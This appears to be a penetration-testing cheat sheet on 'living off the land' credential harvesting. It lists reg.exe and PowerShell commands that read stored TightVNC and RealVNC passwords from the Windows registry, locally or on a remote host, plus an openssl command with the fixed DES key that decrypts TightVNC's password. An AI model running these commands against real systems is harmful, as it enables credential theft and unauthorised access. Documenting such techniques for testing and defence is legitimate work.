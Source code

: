 # Living off the Land

## 01 - TightVNC

### 1.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\SOFTWARE\TightVNC\Server" /v Password
```

Decode the hardcoded password.

```
$ basenc -d --base16 <<< "<hex_encoded_password" | openssl enc -provider legacy -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -C
```

### 1.2 - PowerShell

```powershell
PS C:\> Get-ItemProperty -Path "HKCU:\Software\TightVNC\Server"

PS C:\> $FormatEnumerationLimit = -1
Get-ItemProperty -Path Registry::HKLM\software\TightVNC\Server -Name ControlPassword
$password = 139, 16, 57, 246, 188, 35, 53, 209
ForEach ($hex in $password) {
[Convert]::ToString($hex, 16) }
```

## 02 - RealVNC

### 2.1 - Command Prompt

```
C:\> reg.exe query [\\<IP>\]HKCU\Software\ORL\WinVNC3\Password

C:\> reg.exe query [\\<IP>\]HKLM\SOFTWARE\RealVNC\WinVNC4 /v password
```

### 2.2 - PowerShell

```
PS C:\> Get-ItemProperty -Path "HKCU:\Software\ORL\WinVNC3\Password"

PS C:\> Get-ItemProperty -Path "HKLM:\SOFTWARE\RealVNC\WinVNC4" -Name password
```

---
## References

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)